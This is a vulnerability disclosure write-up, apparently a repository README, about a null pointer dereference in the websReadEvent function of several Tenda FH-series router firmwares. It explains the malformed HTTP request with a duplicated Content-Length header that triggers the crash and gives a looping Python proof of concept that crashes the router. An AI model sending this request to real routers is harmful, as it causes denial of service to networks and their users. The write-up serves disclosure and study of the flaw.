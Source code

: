 # Overview

| Firmware Name | Firmware Version  | Download Link                                                                                                   |
|---------------|-------------------|-----------------------------------------------------------------------------------------------------------------|
| FH451         | V1.0.0.9          | https://www.tenda.com.cn/download/detail-1629.html                                                              |
| FH451         | V1.0.0.7          | https://www.tenda.com.cn/download/detail-1594.html                                                              |
| FH451         | V1.0.0.5          | https://www.tenda.com.cn/download/detail-1375.html                                                              |
| FH1201        | V1.2.0.14(408)_EN | https://www.tendacn.com/download/detail-3322.html                                                               |
| FH1201        | V1.2.0.8(8155)    | https://drivers.softpedia.com/get/Router-Switch-Access-Point/Tenda/Tenda-FH1201-Router-Firmware-1208-8155.shtml |
| FH1202        | V1.2.0.14(408)    | https://www.tenda.com.cn/download/detail-2079.html                                                              |
| FH1202        | V1.2.0.14(408)_EN | https://drivers.softpedia.com/get/Router-Switch-Access-Point/Tenda/Tenda-FH1202-Router-Firmware-12014408.shtml  |
| FH1202        | V1.2.0.9          | https://www.tenda.com.cn/download/detail-1810.html                                                              |
| FH1206        | V1.2.0.8(8155)    | https://drivers.softpedia.com/get/Router-Switch-Access-Point/Tenda/Tenda-FH1206-Router-Firmware-1208-8155.shtml |

# Vulnerability details
A null pointer dereference in the `websReadEvent` function, where the `strlen` function is invoked with a null pointer in Tenda FH1201 V1.2.0.8(8155) , allows remote attackers to cause the backend system denial of service via sending a specific packet.

## 1. Vulnerability Trigger Location
The following vulnerability analysis and explanation are based on the `FH1201` router, with firmware version `V1.2.0.8(8155)`. The vulnerability trigger and analysis methods for other models are similar.

The vulnerability trigger location is at the `strlen` function call under the `websReadEvent` function, at address 0x430858. For easier analysis, I referred to the GoAhead 2.5 source code from https://github.com/ehlalwayoUk/goahead/tree/master and modified the variable names in Ghidra accordingly.
![Vulnerability Trigger Location](./assets/Trigger.png)

## 2. Conditions to Satisfy
- In the websUrlParse function, the `?` in POST /goform/GetIPTV?fgHPOST/goform/SysToo allows `strchr` at `4237ac` to get the index of the `?`. Referring to the GoAhead source code, it can be seen that the information after `?` is stored in `wp->query`. ![websUrlParse](./assets/websUrlParse.png) ![websUrlParse](./assets/websurlparse_source.png.png) 

- **Content-Length** must be written twice.
    - The first `Content-Length` should be `>= 1`. This is necessary to set `param_1 + 0xe4(wp->flags) |= 0x400` and call `websSetVar`  to set `CONTENT_LENGTH` value..
    ![else_content_length](./assets/else_content_length.png)
    - The second `Content-Length` is to set `clen = 0`. It set `param_1 + 0xec = 0`.
- After that, an empty line (`\r\n`) is needed to ensure the final `text` is empty.In the `socketGets` function, reading an isolated \r\n sets `nbytes = 0`, and as a result, `*text = 0`. The corresponding assembly location is at `0x419f5c`.![socketGets](./assets/socketGets.png)

- Due to conditions such as nbytes = 0 being met, wp->state = 8 is finally set in the websGetInput function at address 0x431264.![wp_state_8](./assets/wp_state_8.png)

- At address `0x430648` in the websReadEvent function, the value of `local_18` is obtained as `wp->state`, which is 8.![getstate](./assets/getstate.png)

- As a result, in the `websReadEvent` function, because `local_18 = 8` and there is content in `wp->query`, both the `if` and `else if` conditions are not satisfied, leading to the else branch being executed, which triggers the vulnerability.`strlen` is called with a null pointer, which leads to a segmentation fault when dereferenced internally.![ivar2_8](./assets/ivar2_8.png)


# POC

```python
import socket

host = "192.168.1.100"
port = 80
times = 0
while 1:
    times += 1
    print("times:"+str(times))
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((host, port))
    request = (
        "POST /goform/GetIPTV?fgHPOST/goform/SysToo HTTP/1.1\r\n"
        "Content-Length:1\r\n"
        "Content-Length:# \r\n"
        "\r\n"
    )
    s.send(request.encode())
    response = s.recv(4096)
    print(response.decode())
    s.close()
```

# Vulnerability Verification Screenshot
## 1. FH451 V1.0.0.9          
![](./FH451-V.1.0.0.9/poc.png)

## 2. FH451 V1.0.0.7 
![](./FH451-V.1.0.0.7/poc.png)         

## 3. FH451 V1.0.0.5 
![](./FH451-V.1.0.0.5/poc.png)         

## 4. FH1201 V1.2.0.14(408)_EN 
![](./FH1201-V1.2.0.14-408-EN/poc.png)

## 5. FH1201 V1.2.0.8(8155)    
![](./FH1201-V1.2.0.8-8155/poc.png)

## 6. FH1202 V1.2.0.14(408)    
![](./FH1202-V1.2.0.14-408/poc.png)

## 7. FH1202 V1.2.0.14(408)_EN 
![](./FH1202-V1.2.0.14-408-EN/poc.png)

## 8. FH1202 V1.2.0.9          
![](./FH1202-V1.2.0.9/poc.png)

## 9. FH1206 V1.2.0.8(8155)     
![](./FH1206-V1.2.0.8-8155/poc.png)
